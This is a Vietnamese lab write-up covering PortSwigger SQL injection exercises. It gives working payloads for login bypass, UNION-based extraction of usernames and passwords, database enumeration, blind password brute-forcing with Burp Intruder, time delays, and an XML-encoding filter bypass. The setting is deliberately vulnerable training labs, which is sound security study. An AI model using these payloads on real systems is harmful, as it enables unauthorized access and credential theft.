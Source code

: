 ```yaml
---
title: SQL Injection Labs
date: '2022-12-24'
tags: ['porswigger', 'sql', 'injection','sqlinjection']
draft: false
summary: Writeups cua SQL Injection Labs.
images: ['/static/images/ccna/cisco.jpg']
author: ['default']
---
```

**[1.SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)**

- Ta thấy lệnh ```filter?``` sẽ truy xuất dữ liệu. Dùng ```filter?category=Pets'+or+1=1--'``` sẽ hiện ra toàn bộ thông tin sản phẩm.

**[2.SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)**

![image](https://user-images.githubusercontent.com/61643034/209037070-e5b60413-e259-47d7-9a2d-28b3c433fc0f.png)
- Sử dụng Burp Suite để chặn và sửa đổi yêu cầu đăng nhập.
- Sửa đổi tham số, cung cấp cho nó giá trị: ```usernameadministrator'--```

**[3.SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)**
- Mục đích của bài này là xác định số trường của query.
- Theo gợi ý thấy chèn sau category=? 1 đoạn ```'+UNION+SELECT+NULL,NULL--```
- Kết quả trả về là internal server -> thừa hoặc thiếu số lượng trường trong bảng -> thêm 1 trường vào -> query trở thành ```filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL-- ```

**[4.SQL injection UNION attack, finding a column containing text ](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**

- Bài này không chỉ cần xác định số trường của query mà còn cả vị trí của text string nữa.
- Cùng 1 trang web query nên ta biết chắc query này cũng sẽ có 3 cột
- Thử payload ```'+UNION+SELECT+'a',NULL,NULL--``` -> màn hình hiện lên bắt nhập string bắt buộc là ```'QCQTlQ'``` -> Enter
- Vẫn bị lỗi internal server -> thử vị trí của string thành cột 2, hoặc 3 -> ```'+UNION+SELECT+NULL,'QCQTlQ',NULL--``` -> done

**[5.SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**

- Theo mô tả, ta thấy trong database có bảng khác tên là users và bảng này có 2 cột ```username``` và ```password```.
- Thử payload ```'+UNION+SELECT+'a','a'--``` -> Lăn xuống thấy trả về 2 string ***a***
- Thay thành ```'+UNION+SELECT+'username','password'--```
- Màn hình sẽ show ra nhiều hàng hiển thị nhiều tài khoản -> lọc lại thấy có tài khoản ```administrator```
![image](https://user-images.githubusercontent.com/61643034/209432735-55ce8a1f-04e6-4e5b-8a47-04a90503dbaf.png)
 
 -> Click vào trang login -> nhập username và password và -> done
 
 **[6.SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**

- Tương tự 3.3,thử payload ```'+UNION+SELECT+NULL,username||'~'||password+FROM+users--``` 
![image](https://user-images.githubusercontent.com/61643034/209439384-7f5fc4e3-81c4-4312-8821-80c683513ebf.png)

 -> Click vào trang login -> nhập username và password và -> done
 
 **[7.SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)**

- Thử payload ```'+UNION+SELECT+BANNER,+NULL+FROM+v$version--``` 
- Thông tin của Oracle sẽ hiện ra và done!

 **[8.SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+@@version,+NULL#``` đây là payload dùng để show version -> sau đó có được version ```'8.0.31-0ubuntu0.20.04.2'``` thì thay ```@@version``` thành version vừa kiếm được. Vậy là xong rồi ^^

**[9.SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--``` đây là payload dùng để show tên các table có trong database, chúng ta sẽ cần nó để tìm tới table chứa ``user `` rồi thấy có 1 table tên là ```users_gwglpg``` rất khả nghi =)))
- Thử truy xuất dữ liệu xem có gì nào. Sửa pay load lại 1 xíu thành ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gwglpg'--``` -> ta được ```username_jsoxhc``` và ```password_tppahp```
- Giờ cùng dùng payload cuối nào ```'+UNION+SELECT+username_jsoxhc,+password_tppahp+FROM+users_gwglpg--``` 
![image](https://user-images.githubusercontent.com/61643034/209443750-96e84f6a-b582-40ce-8796-4383a022bdf8.png)

- Vào ***My Account*** rồi login với tài khoản admin trên là xong =)))

**[10.SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)**

- Dùng payload ```'+UNION+SELECT+'abc','def'+FROM+dual--``` -> hiện ra list bảng thấy có bảng user đặc biệt
![image](https://user-images.githubusercontent.com/61643034/209445285-0d03af36-06d8-4c80-be92-c6ebd47be4e1.png)
- Giờ có user -> đổi payload thành ```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_VODNEC'--``` (vì mình để lab lâu nên nó tự đổi tên user_name :> )
![image](https://user-images.githubusercontent.com/61643034/209446011-b155badb-1b25-4d34-bb21-c5c50d1d4875.png)
- Tiếp có username và password -> đổi payload thành như sau ```'+UNION+SELECT+USERNAME_VGBMEN,PASSWORD_BDEQAY+FROM+USERS_VODNEC--```
![image](https://user-images.githubusercontent.com/61643034/209446101-873b06f6-415e-42e4-b36d-0345d5af381e.png)
- Bây giờ chỉ login vào nữa :> 

**[11.Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
- Truy cập trang web -> chọn bất kì 1 category và bật interception burosuite
![image](https://user-images.githubusercontent.com/61643034/209454680-d4ae355a-30ee-4c48-8c2b-8a057e48a4d4.png)
- Theo gợi ý, mình sẽ chỉnh sửa phần TrackingID với payload ```TrackingId=abcxyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=$hehe$)='a``` -> ném cái này vào intruder để xem độ dài của password -> lenght=20
- Sau đó dùng payload sau để kiểm tra từng kí tự của password ```TrackingId=xyz' AND (SELECT SUBSTRING(password,$position$,1) FROM users WHERE username='administrator')='$a$``` với vị trí bruteforce số 1 để từ ***1-20***, còn với vị trí 2 để list là **a-z và 0-9**. 
- Để Grep match case là "Welcome back" -> thu về password là ```qqdl6qgmenyo3fdkcpst```
- Vào login với account administrator là done :>

**[13.Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
- Theo gợi ý, mình sẽ chỉnh sửa phần TrackingID với payload trong repeater ```TrackingId=x'||pg_sleep(10)--``` -> send -> done 🫀

**[Bài 12 và 14 làm tương tự các bước bài 11+13]()**

**[17.SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
![image](https://user-images.githubusercontent.com/61643034/209040423-3270052e-3a07-4225-9431-70a5c5d6b9cc.png)**

- Truy cập trang web, ở burpsuite, bật interception on
- Bấm vào ```check``` -> vào check request trả về
- Trong request có trường ```storeID``` -> sửa thành ```1+1``` -> trả về 144 unit -> bằng với storeID=2
- Nhập 1 lệnh attack vào giữa cặp ```<storeID>``` -> trả về attack detected -> bị block
  ![image](https://user-images.githubusercontent.com/61643034/209041177-ab4fe22c-2342-451b-aa22-872c072242b4.png)
- Bây giờ vào extension -> cài Hackvertor -> vào encode -> dec_entries -> dán ```<@dec_entities>1 UNION SELECT username || '~' || password FROM users<@/dec_entities>``` vào được output -> copy thả lại vào cặp thẻ ```<storeID>```.
![image](https://user-images.githubusercontent.com/61643034/209444081-694a1c38-9abc-4c49-9bcc-7a908e80d23d.png)
 Và bbooms
![image](https://user-images.githubusercontent.com/61643034/209042766-d1661308-9cbb-42c4-9651-58ebde6e0c14.png)
- Bây giờ, chỉ cần login nữa là xong rồi ^^
